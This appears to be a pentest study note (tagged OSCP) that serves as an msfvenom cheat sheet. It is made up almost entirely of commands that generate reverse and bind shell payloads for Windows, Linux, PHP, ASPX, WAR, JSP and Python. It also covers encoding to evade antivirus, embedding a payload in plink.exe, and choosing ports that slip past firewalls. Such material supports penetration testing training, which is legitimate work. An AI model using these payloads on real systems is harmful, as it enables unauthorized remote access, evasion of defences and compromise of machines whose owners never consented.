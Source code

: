 ```yaml
---
title: "MSFvenom"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - msfvenom
  - shell
  - reverse
toc: true
hide_title: true
excerpt: ""
---
```


**Always use known port for lhost like , 53, 443, 8080 as most of time firewall will block unknown ports traffic and you will not get connection back**

https://www.revshells.com/ - also have msfvenom options
## List available formats

```
msfvenom --list formats
```

## List available payloads for specific platform

```
msfvenom --payload --list-options | grep windows
```

## Windows

### bat reverse shell

mostly used with **JuicyPotato** exploit

```
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.12.15 lport=4444 > shell.bat
```

### exe reverse shell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```

### Powershell

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1
```

### x64 Bit payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe
```

### Embedded payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
# Windows reverse shell embedded into plink  
```

## Linux

### bind shell

```
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c
```

### reverse shell

```
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f c
```

## Other Platforms

### php reverse shell

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php
```

### aspx reverse shell

```
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.3 LPORT=4444 > shell.aspx
```

### Java WAR reverse shell

Most time will used to get shell on tomcat

```
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war
```

### jsp reverse shell

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
```

### python reverse shell

```
msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
```